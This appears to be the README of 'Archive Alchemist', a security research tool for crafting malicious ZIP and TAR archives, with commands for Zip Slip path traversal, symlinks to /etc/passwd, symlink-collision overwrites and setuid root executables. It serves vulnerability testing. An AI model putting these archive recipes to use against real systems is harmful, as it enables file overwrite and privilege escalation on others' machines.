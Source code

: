 # Archive Alchemist

Archive Alchemist is a security research tool for creating specially crafted archives to test extraction vulnerabilities. 100% vibecoded, use at own disposal.

## Features

- Create ZIP and TAR archives with malicious patterns
- Support for path traversal attacks
- Support for symlinks and hardlinks
- Ability to set special permission bits (setuid, setgid, sticky bit)
- Fine-grained control over file attributes (mode, uid, gid, mtime)
- Multiple manipulation commands: add, replace, append, modify

## Installation

```bash
# Clone the repository
git clone https://github.com/avlidienbrunn/archive-alchemist.git
cd archive-alchemist

# Make the script executable
chmod +x archive-alchemist.py

# Optional: create a symlink to use globally
sudo ln -s $(pwd)/archive-alchemist.py /usr/local/bin/archive-alchemist
```

## Usage

### Basic Usage

```bash
./archive-alchemist.py -f archive.zip -t zip <command> [options]
```

### Archive Type Detection

If `-t`/`--type` flag is not specified, Archive Alchemist determines the archive type in two ways:

1. **Magic Bytes Detection**: For existing archives, the tool identifies the format by examining the file's content signature.

2. **Extension-based Detection**: For new archives or when magic bytes detection fails, the tool uses the file extension:
   - `.zip`: ZIP format
   - `.tar`: TAR format
   - `.tar.gz` or `.tgz`: Compressed TAR format

For files with unrecognized extensions and no valid magic bytes, ZIP format is used by default.

You can always override automatic detection by explicitly specifying the `-t` flag:

```bash
# Force TAR format regardless of extension or content:
./archive-alchemist.py -f archive.zip -t tar add file.txt --content "Using TAR format"
```

### Commands

#### Add Files

```bash
# Add a regular file
./archive-alchemist.py -f archive.zip add hello.js --content "console.log('hello')"

# Add a file with path traversal
./archive-alchemist.py -f archive.tar -t tar add "../../../etc/passwd" --content "fake passwd file"

# Add a symlink
./archive-alchemist.py -f archive.tar -t tar add hello.js --symlink "/tmp/xx.txt"

# Add with permission bits
./archive-alchemist.py -f archive.tar -t tar add exploit.sh --content "#!/bin/sh\necho hacked" --mode 0755 --setuid
```

#### Replace Files

```bash
# Replace existing file content
./archive-alchemist.py -f archive.zip replace hello.js --content "console.log('replaced')"
```

#### Append to Files

```bash
# Append content to existing file
./archive-alchemist.py -f archive.zip append hello.js --content "\nconsole.log('appended')"
```

#### Modify Attributes

```bash
# Modify file attributes
./archive-alchemist.py -f archive.tar -t tar modify hello.js --mode 0755 --uid 0 --gid 0 --setuid
```

#### Remove Files

```bash
# Remove a file from an archive
./archive-alchemist.py -v -f archive.zip remove file.txt

# Remove a directory and all its contents
./archive-alchemist.py -v -f archive.tar -t tar remove directory/
```

#### Extract Archive Contents

```bash
# Extract all files from an archive
./archive-alchemist.py -f archive.zip extract

# Extract to a specific directory
./archive-alchemist.py -f archive.tar -t tar extract --output-dir /path/to/extract

# Extract a specific file or directory from the archive
./archive-alchemist.py -f archive.zip extract --path some/dir

# Extract in vulnerable mode (allows path traversal, symlinks, etc.)
./archive-alchemist.py -f archive.tar -t tar extract --vulnerable

# Normalize file permissions instead of preserving them
./archive-alchemist.py -f archive.zip extract --normalize-permissions
```

The extraction feature prioritizes safety by default:

- **Safe by default**: Path traversal is prevented, absolute paths are sanitized, and symlinks are converted to regular files with information about their targets
- **Permission preservation**: By default, file permissions from the archive are preserved
- **Controlled vulnerability testing**: Use `--vulnerable` to allow potentially unsafe extractions for testing purposes
- **Selective extraction**: Extract only specific paths from the archive

This implementation helps security researchers test how different archive formats and extraction methods can be exploited, while maintaining safety by default.

#### List Archive Contents

```bash
# List files in an archive
./archive-alchemist.py -f archive.zip list

# Show detailed listing with file attributes
./archive-alchemist.py -f archive.tar -t tar list --long 1

# or the short form
./archive-alchemist.py -f archive.zip list -l 0
```

### Examples for Security Testing

#### Zip Slip Attack

```bash
# Create a zip with path traversal payload
./archive-alchemist.py -f zipslip.zip add "../../../tmp/evil.txt" --content "I escaped the extraction directory!"
```

#### Symlink Attack

```bash
# Create a tar with a symlink pointing to a sensitive file
./archive-alchemist.py -f symlink_attack.tar -t tar add .bashrc --symlink "/etc/passwd"
```

#### File Collisions with Symlinks

```bash
# First add a symlink
./archive-alchemist.py -f collision.tar -t tar add config.txt --symlink "/tmp/target.txt"

# Then add a regular file with the same name (will be extracted last)
./archive-alchemist.py -f collision.tar -t tar add config.txt --content "Overwrite after symlink is created"
```

#### Setuid Executable

```bash
# Create a setuid executable
./archive-alchemist.py -f setuid_attack.tar -t tar add exploit --content "#!/bin/sh\nwhoami" --mode 0755 --setuid --uid 0
```

## Security Considerations

This tool is designed for security research and vulnerability testing. Using it against systems without explicit permission is illegal and unethical.